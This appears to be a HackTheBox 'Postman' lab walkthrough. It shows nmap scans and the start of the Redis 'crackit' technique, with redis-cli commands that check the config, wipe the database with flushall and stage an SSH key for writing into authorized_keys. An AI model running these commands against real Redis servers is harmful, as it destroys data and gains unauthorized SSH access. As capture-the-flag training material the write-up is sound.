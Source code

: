 ## nmap
```
root@kali:~/Pentesting/HackTheBox/Boxes/Postman# nmap -sC -sV -oA postman 10.10.10.160
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-19 17:13 EST
Nmap scan report for 10.10.10.160
Host is up (0.046s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.89 seconds
```

Initial nmap didn't yield the open redis port, which was important!  Send me down a few dead end paths before running the following more comprehensive nmap:

```
root@kali:~/Pentesting/HackTheBox/Boxes/Postman# nmap -p- 10.10.10.160
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-19 17:16 EST
Nmap scan report for 10.10.10.160
Host is up (0.046s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt
```

## ssh crackit on redis server

I used the ssh-crackit technique in the article below to manually create ssh keys and put them in the database on the host through the redis interface.  This then allowed me to ssh into the box as the redis user, getting the initial foothold.

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

```
shotop@kali:~/Pentesting/HackTheBox/PublicBoxes/Postman$ redis-cli -h 10.10.10.160
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
10.10.10.160:6379> config get dbfilename
1) "dbfilename"
2) "authorized_keys"
10.10.10.160:6379> 
shotop@kali:~/Pentesting/HackTheBox/PublicBoxes/Postman$ redis-cli -h 10.10.10.160 flushall
OK
shotop@kali:~/Pentesting/HackTheBox/PublicBoxes/Postman$ cat foo.txt | redis-cli -h postman.htb -x set crackit
Could not connect to Redis at postman.htb:6379: Name or service not known
shotop@kali:~/Pentesting/HackTheBox/PublicBoxes/Postman$ cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit
OK
```